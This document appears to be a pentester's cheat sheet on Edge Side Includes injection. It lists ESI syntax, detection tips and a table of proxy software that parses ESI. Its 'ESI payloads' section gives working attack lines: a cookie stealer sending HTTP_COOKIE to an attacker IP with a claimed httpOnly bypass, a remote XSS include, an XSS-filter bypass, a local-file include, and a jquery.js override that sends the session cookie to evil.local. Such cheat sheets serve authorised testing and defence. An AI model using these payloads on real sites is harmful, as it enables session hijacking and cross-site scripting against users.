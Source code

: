 
# ESI Features & Syntax

chech doc [ESI DOC](https://docs.oracle.com/cd/B14099_19/caching.1012/b14046/esi.htm#i654520)


## Variables

### syntax 
```html
<esi:vars>$(VARIABLE_NAME)</esi:vars>
```

- $(HTTP_USER_AGENT) → Mozilla/5.0 (X11;[…]
- $(QUERY_STRING) → city=Montreal&format=C
- $(HTTP_COOKIE) → _ga=[…]&__utma=[…]
- $(HTTP_HEADER{Cookie}) → _ga=[…]&__utma=[…]

### example  
```html
<esi:vars>$(HTTP_COOKIE{PHPSESSID})</esi:vars>
```


## Include

### syntax 
```html
<esi:include src="/path/to/file" />
```

### example  
##### //esi/page-1.html:
```html
<html>
<p>This is page 1!</p>
<esi:include src="//api/page-2.html" />
</html>
```
##### //api/page-2.html:
```
<p>This is page 2!</p>
```


## Assign
### syntax
```html
<esi:assign name="var1" value="value"/>
```



# ESI payloads

```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>

//xss bypass
x=<esi:assign name="var1" value="'cript'"/>
<s  <esi:vars name="$(var1)"/>  >
alert(/Chrome%20XSS%20filter%20bypass/);
</s <esi:vars name="$(var1)"/>  >


## override files (example in nodejs)
<esi:inline name="/js/jquery.js" />
var x = new XMLHttpRequest();
x.open("GET", "//evil.local/?
<esi:vars>$(HTTP_COOKIE{session_cookie})</esi:vars>");
x.send();
</esi:inline>

```



# Detection 

- **inspecting response headers in search for Surrogate-Control: content="ESI/1.0"**
- **we usually need to use a blind attack approach to detect if ESI is in use or not.**
- **Specifically, we can introduce ESI tags to HTTP requests to see if any intermediary proxy is parsing the request and if ESI Injection is possible.**
```html
FOO<!--esi -->BAR → FOOBAR ✅
FOO<!--foo -->BAR → FOO<!--foo -->BAR ❌
```


# ESI-capable software differences

- **Includes**: Supports the <esi:includes> directive
- **Vars**: Supports the <esi:vars> directive. Useful for bypassing XSS Filters
- **Cookie**: Document cookies are accessible to the ESI engine
- **Upstream Headers Required**: Surrogate applications will not process ESI statements unless the upstream application provides the headers
- **Host Allowlist**: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

| Software                        | Includes | Vars | Cookies | Upstream Headers Required | Host Whitelist |
|---------------------------------|----------|------|---------|--------------------------|----------------|
| Squid3                          | Yes      | Yes  | Yes     | Yes                      | No             |
| VarnishCache                    | Yes      | No   | No      | Yes                      | Yes            |
| Fastly                          | Yes      | No   | No      | No                       | Yes            |
| Akamai ESI Test Server (ETS)    | Yes      | Yes  | Yes     | No                       | No             |
| NodeJS esi                      | Yes      | Yes  | Yes     | No                       | No             |
| NodeJS nodesi                   | Yes      | No   | No      | No                       | Optional       |
